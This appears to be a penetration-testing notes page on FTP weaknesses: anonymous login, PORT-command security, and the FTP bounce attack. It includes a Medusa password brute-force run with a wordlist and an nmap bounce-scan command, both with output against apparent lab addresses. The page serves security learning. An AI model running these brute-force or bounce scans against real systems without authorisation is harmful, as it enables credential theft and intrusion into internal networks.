 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# FTP

## Misconfigurations

### Anonymous Authentication

Anonymous login is dangerous if read and write permissions have not been set up correctly for the FTP service, this is because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

{% hint style="info" %}
To gain access with the anonymous login, use the `anonymous` username and _**no**_ password.
{% endhint %}

This may allow an attacker to access sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, the attacker would be able to find out where this file is located and execute it.

### Port Security

Modern FTP servers only accept [**PORT** ](https://www.geeksforgeeks.org/computer-networks/port-security-in-computer-network/)commands that initiate a connection from the originating host. It denies any other `PORT` commands that may try to connect to different device IPs. An individual can check for this default feature in their systems.

If this setting is disabled the server may be open to attack such as: [#ftp-bounce-attack](ftp.md#ftp-bounce-attack "mention")

## Brute-Forcing

### Using Medusa

```bash
clue@machine[~]$ medusa -u greg -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: greg Password: password [SUCCESS]
```

## FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

{% hint style="warning" %}
## Old School Attack

Modern FTP servers by default prevent this attack, but if the server is misconfigured it may be vulnerable to the FTP Bounce Attack.

[#port-security](ftp.md#port-security "mention")
{% endhint %}

Consider we are targeting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The [nmap](../../../toolbox/tooling/information-gathering/nmap/ "mention") `-b` flag can be used to perform an FTP bounce attack:

```bash
clue@machine[~]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

